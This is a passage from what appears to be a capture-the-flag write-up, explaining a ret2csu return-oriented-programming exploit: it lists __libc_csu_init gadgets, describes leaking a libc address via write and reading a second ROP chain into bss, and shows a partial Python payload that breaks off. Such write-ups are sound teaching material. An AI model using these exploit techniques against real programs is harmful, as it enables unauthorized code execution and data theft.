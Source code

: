 ```asm
   0x0000000000400c22 <+98>:	pop    r15
   0x0000000000400c24 <+100>:	ret 
   ```
We see that we can `pop` some gadgets and then `mov` them to another registers.  
* Gadget 1: `0x400c1a` # pops
* Gadget 2: `0x400c00` # movs  

To be more precise:  
Gadget 1:  
```asm
   0x0000000000400c1a <+90>:	pop    rbx
   0x0000000000400c1b <+91>:	pop    rbp
   0x0000000000400c1c <+92>:	pop    r12
   0x0000000000400c1e <+94>:	pop    r13
   0x0000000000400c20 <+96>:	pop    r14
   0x0000000000400c22 <+98>:	pop    r15
   0x0000000000400c24 <+100>:	ret
```

Gadget 2:  
```asm
   0x0000000000400c00 <+64>:	mov    rdx,r13
   0x0000000000400c03 <+67>:	mov    rsi,r14
   0x0000000000400c06 <+70>:	mov    edi,r15d
   0x0000000000400c09 <+73>:	call   QWORD PTR [r12+rbx*8]
   0x0000000000400c0d <+77>:	add    rbx,0x1
   0x0000000000400c11 <+81>:	cmp    rbx,rbp
   0x0000000000400c14 <+84>:	jne    0x400c00 <__libc_csu_init+64>
   0x0000000000400c16 <+86>:	add    rsp,0x8
```  
We can see that:  
* `rdx` = `r13`
* `rsi` = `r14`
* `edi` = `r15d`
* call [`r12` + `rbx`\* 8]  

We can control all these registers so we can call `write(1, addr@libc, 0x8)` and leak address of whatever func we want in order to calculate libc_base.  

Then, we are going to call `read` and "make" it write from fd to `bss`.  
`read(0, bss, 0x300)`.  
This way, we will store our payload-ropchain (up to 0x300 bytes) in the `bss` section and then we will pivot to it in order to execute it.  

The payload so far looks like this:  
```python
   # LEAK WRITE@GOT - write(1, write@GOT, 0x8)

   flag = b'./flag\x00'
   junk = flag + b'b'*(40-len(flag))

   payload =  junk            # What i want to read
   payload += p64(gadget1)    # Gadget 1 (pops)
   payload += p64(0)          # pop rbx
   payload += p64(1)          # pop rbp
   payload += p64(write_got)  # pop r12 (call write)
   payload += p64(0x8)        # pop r13 (rdx, bytes to write)
   payload += p64(write_got)  # pop r14 (rsi, what to write)
   payload += p64(1)          # pop r15 (rdi, fd)
   payload += p64(gadget2)    # ret Gadget 2 (movs + pops)

   # Ropchain - read(0, bss, 0x300)
   payload += p64(0)          # add rsp, 8
   payload += p64(0)          # pop rbx
   payload += p64(1)          # pop rbp
   payload += p64(read_got)   # pop r12
```